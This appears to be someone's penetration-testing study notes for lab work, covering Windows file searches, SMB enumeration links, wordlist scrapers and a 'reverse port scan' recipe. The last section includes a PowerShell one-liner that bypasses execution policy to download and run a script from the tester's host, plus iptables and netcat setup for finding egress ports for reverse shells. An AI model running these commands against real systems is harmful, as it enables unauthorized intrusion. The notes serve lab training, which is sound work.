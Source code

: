  Get-ChildItem  -recurse |
>>    Where-Object CreationTime -gt ([DateTime]::Parse('2019/07/19')) | Sort-Object CreationTime |
>>     Format-Table fullname|   

Get-ChildItem  -recurse |
>>    Where-Object CreationTime -gt ([DateTime]::Parse('2019/07/19')) | Select-String -pattern "administrator

## kali-docker
enum "script" für ftp
check https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt

## todo other
https://help.offensive-security.com/hc/en-us/articles/360050473812-PEN-200-Labs-Learning-Path
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4

# windows stuff

- https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
- https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html#smbmap
- nmblookup -A "$rhost"
- sharpup
- powerup

# wordlist

## check tool

- html2dic

## python implementation?

```python
import scrapy

class BlogSpider(scrapy.Spider):
    name = 'blogspider'
    start_urls = ['https://www.zyte.com/blog/']

    def parse(self, response):
        for title in response.css('.oxy-post-title'):
            yield {'title': title.css('::text').get()}

        for next_page in response.css('a.next'):
            yield response.follow(next_page, self.parse)
```


```python
import requests
import collections
from bs4 import BeautifulSoup
import operator

thesite = requests.get("http://www.lemonde.fr").text

soup = BeautifulSoup(thesite, 'html.parser')
thewords = soup.get_text().split()

# keep only words over 3 chars

thewords = {w: f for  w, f in collections.Counter(thewords).items() if len(w) > 3}
topwords = sorted(thewords.items(), key=operator.itemgetter(1), reverse=True)

print(topwords)
```

```
# list open ports
# TCP
Get-NetTCPConnection -State Listen| select LocalAddress,LocalPort,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}}
# UDP
Get-NetUDPEndpoint | select LocalAddress,LocalPort,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}} 
```

# reverse port scan (show open ports)
```
Get this script and make it downloadable on port 80:

wget https://github.com/InfosecMatter/Minimalistic-offensive-security-tools/raw/master/port-scan-tcp.ps1
python -m http.server 80

Setup iptables just like for meterpreter/reverse_tcp_allports, but make sure port 80 is queryable, and start the netcat catch-all:

sudo iptables -i tun0 -A PREROUTING -t nat -p tcp --dport 20:79 -j REDIRECT --to-port 8000
sudo iptables -i tun0 -A PREROUTING -t nat -p tcp --dport 81:6000-j REDIRECT --to-port 8000
nc -nlvp 8000

Run the script locally:

powershell -ep bypass -nOp -c "iex (iwr http://192.168.119.248/port-scan-tcp.ps1 -UseBasicParsing);port-scan-tcp 192.168.119.248 (21,22,23,53,80,139,389,443,445,636,1433,3128,8080,3389,5985);"

If you have an output in powershell, you can see which ports the target can reach you on, and then open your set of ports (delivery, reverse shell, smb servers, etc). If you don’t have an output (blind command) you still can see on what ports you received packets by using wireshark or tcpdump. Remember that packets will be routed using PREROUTING, so netcat will not be able to see the original destination port.

Reverse tcp port scan in bash on Linux:

export ip=<IP>; for port in $(seq 20 6000); do nc -zv -w1 $ip $port& done
```

